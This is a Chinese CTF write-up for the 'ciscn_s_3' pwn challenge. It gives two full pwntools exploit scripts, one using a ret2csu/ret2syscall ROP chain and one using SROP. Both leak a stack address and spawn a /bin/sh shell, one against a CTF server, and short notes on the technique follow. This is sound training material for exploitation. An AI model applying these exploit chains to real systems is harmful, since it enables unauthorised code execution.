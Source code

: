 考点：ret2syscall、SROP

其实感觉没必要用 ret2csu qwq，另外这题用栈迁移也可以做，因为栈地址是知道的。

```python
from pwn import *
from sys import argv

proc = "ciscn_s_3"
context.log_level = "debug"
context.binary = proc
elf = ELF(proc, checksec=False)
io = remote("", ) if argv[1] == 'r' else process(proc)

if args.G:
    gdb.attach(io)

vuln_addr = 0x4004ed
pop_csu_addr = 0x40059a
mov_csu_call_r12_addr = 0x400580
execve_addr = 0x4004e2
pop_rdi_ret = 0x00000000004005a3
syscall_addr = 0x0000000000400501
ret = 0x00000000004003a9
payload1 = b"a" * 16 + p64(vuln_addr)
# input()
io.send(payload1)
io.recv(0x20)
buf_addr = u64(io.recv(8)) - 0x148
log.info(f"buf_addr => {hex(buf_addr)}")
payload2 = p64(pop_rdi_ret) + b"/bin/sh\x00" + p64(pop_csu_addr) # 这里用 ret 是不行的
payload2 += p64(0) + p64(0) + p64(buf_addr) + p64(0) + p64(0) + p64(0)
payload2 += p64(mov_csu_call_r12_addr) + p64(pop_rdi_ret) + p64(buf_addr + 8)
payload2 += p64(execve_addr) + p64(syscall_addr)
io.sendline(payload2)
io.interactive()
```


一个小知识点：**`call` 指令会往栈上压入当前的下一条指令的地址，因此需要将之弹出栈**

这个题目 vuln 函数没有 `leave` 指令，所以 old_rbp 的地址就是返回地址，第一次遇到。

还有一个 SROP 解法。

```python
from pwn import *
from sys import argv

proc = "ciscn_s_3"
context.log_level = "debug"
context.binary = proc
elf = ELF(proc, checksec=False)
io = remote("node5.buuoj.cn", 26165) if argv[1] == 'r' else process(proc)

if args.G:
gdb.attach(io)

vuln_addr = 0x4004ed

payload1 = b"a" * 16 + p64(vuln_addr)
# input()
io.send(payload1)
io.recv(0x20)
buf_addr = u64(io.recv(8)) - 0x148
log.info(f"buf_addr => {hex(buf_addr)}")

syscall_addr = 0x0000000000400501
sigreturn_addr = 0x4004da
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rip = syscall_addr
frame.rsi = 0
frame.rdi = buf_addr
frame.rdx = 0

payload2 = b"/bin/sh\x00aaaabbbb" + p64(sigreturn_addr) + p64(syscall_addr) + bytes(frame)
io.sendline(payload2)
io.interactive()
```

调这道题目时遇到了本地通远程不同的问题，后来发现是本地和远程的栈的相对偏移不一样，这应该是系统版本问题（我本机是 ubuntu2204，远程是 ubuntu1804），打比赛的时候还是应该在手里多备一些 docker 镜像，也许用 docker-compose 批量管理会更好一点（？

**关于SROP**：只需要把 ROP 链改成 signreturn syscall，然后布置栈就好了。 
